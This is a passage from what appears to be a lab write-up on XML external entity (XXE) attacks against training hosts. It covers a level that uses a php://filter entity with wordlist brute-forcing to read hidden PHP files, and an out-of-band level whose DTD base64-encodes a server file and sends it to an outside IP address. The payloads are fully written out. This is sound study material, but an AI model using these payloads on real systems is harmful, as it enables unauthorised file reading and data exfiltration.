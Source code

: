 ```bash
&ext;
</username>
<password>
asd
</password>
</login>                                          
```
Which, after decoding says:
```bash
In the root folder there is a hidden folder (hidden/) that contains a PHP file.
The username is enclosed within the tag <HIDE_ME_PLEASE>, e.g.:
<HIDE_ME_PLEASE>SecretUsername</HIDE_ME_PLEASE>
Find the file!
Maybe here you can find some useful wordlists here: http://blog.thireus.com/web-common-directories-and-filenames-word-lists-collection
```
We can then pass the stuff to intruder to get the correct file using the suggested wordlist as payload:
```bash
POST /login.php HTTP/1.1
Host: 5.xxe.labs
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
AuthXXE: login
X-Requested-With: XMLHttpRequest
Content-Length: 276
Origin: http://5.xxe.labs
Connection: close
Referer: http://5.xxe.labs/

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "php://filter/convert.base64-encode/resource=/var/www/hidden/§f§" > ]>
<login>
<username>
&ext;
</username>
<password>
asd
</password>
</login>                                          
```
### Level 6
Same, just OOB. We server the following DTD on port 8888 via Python3 http server:
```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///var/www/6/.letmepass.php">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://192.90.112.2:4444/?x=%file;'>">
%eval;
%exfiltrate;
```
We then setup another Python server on port 4444 and send the following request with Burp:
```bash
POST /login.php HTTP/1.1
Host: 6.xxe.labs
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
AuthXXE: login
```
